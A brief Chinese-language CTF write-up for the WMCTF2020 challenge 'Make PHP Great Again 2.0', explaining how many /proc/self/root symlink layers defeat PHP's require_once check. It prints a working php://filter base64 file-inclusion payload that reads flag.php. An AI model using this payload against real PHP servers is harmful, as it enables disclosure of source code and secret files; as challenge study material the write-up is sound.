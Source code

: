 ```yaml
---
title: '[WMCTF2020]Make PHP Great Again 2.0'
date: 2024-09-09 19:05:45
tags: php特性
categories: 刷题笔记
---
```


### [WMCTF2020]Make PHP Great Again 2.0

`require_once` 表达式和 [require](https://www.php.net/manual/zh/function.require.php) 表达式完全相同，唯一区别是 PHP 会检查该文件是否已经被包含过，如果是则不会再次包含。

由于 require_once 包含的软链接层数较多时 once 的 hash 匹配会直接失效造成重复包含。

<!--more-->

由于已经包含过一次了，接下来就是绕过once再包含一次

`/proc/self/`是指向当前进程的`/proc/pid/`，而`/proc/self/root`是指向`/`的软连接，所以让软连接层数变多即可造成重复包含：

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

![image-20240909191021406](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409091910499.png)

解码base64得到flag
